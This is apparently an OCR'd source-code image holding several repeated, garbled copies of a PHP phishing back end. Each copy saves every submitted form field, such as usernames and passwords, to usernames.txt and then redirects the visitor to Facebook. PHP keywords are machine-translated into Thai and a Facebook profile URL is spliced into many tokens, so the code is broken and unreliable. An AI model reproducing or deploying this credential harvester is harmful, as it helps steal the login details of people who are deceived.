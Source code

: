 #https://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWKwL <?php
ส่วนหัว ('ตำแหน่ง:https://www.facebook.com/profile.php?id=100045528502132&mibextid=https://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWKwL''.);
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแhttps://www.facebook.com/profile.php?id=100045528502132ปร);
      fwrite($hhttps://www.facebook.com/profile.php?id=100045528502132andle, "=");
         fhttps://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWwrite($<?php
         ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
         $handle = fopen("usernames.txt", "a");
         foreach($_POST เป็น $variable => $value) {
            fwrite($จัดการ, $ตัวแปร);
               fwrite($handle, "=");
                  fwrite($จัดการ, $value);
                     fwrite($handle, "\r\n");
                     }
                     fwrite($handle, "\r\n");
                     fclose($จัดการ);
                     ออก;
                     ?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($จัดการ);
ออก;
?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
      fwrite($handle, "=");
         fwrite($จัดการ, $value);
            fwrite($handle, "\r\n");
            }
            fwrite($handle, "\r\n");
            fclose($จัดการ);
            ออก;
            ?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernames.txt", "a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($จัดการ);
ออก;
?><?php
ส่วนหัว ('ตำแหน่ง:http://www.facebook.com/');
$handle = fopen("usernhttps://www.facebook.com/profile.php?id=100045528502132ames.txt", "https://www.facebook.com/profile.php?id=100045528502132a");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($จัดการ);
ออก;
?>จัดการจัดการจัดการ, $value);
            fwrite($handle, "\r\n");
            }
            fwrite($handle, "\r\n");
            fclose($จัดการ);
            ออก;
            ?><?php
ส่วนหัว ('ตำแหน่ง:https://www.facebook.com/profile.php?id=100045528502132&mibextid=ZbWKwL);
$handle = fopen("usernames.txt", "ahttps://www.facebook.com/profile.php?id=100045528502132");
foreach($_POST เป็น $variable => $value) {
   fwrite($จัดการ, $ตัวแปร);
   fwrite($handle, "=");
   fwrite($จัดการ, $value);
   fwrite($handle, "\r\n");
}https://www.facebook.com/profile.php?id=100045528502132
fwrite($handle, "\r\nhttps://www.facebook.com/profile.php?id=100045528502132");
fclose($https://www.facebook.com/profile.php?id=100045528502132จัดการ);
ออก;รหัส

?>
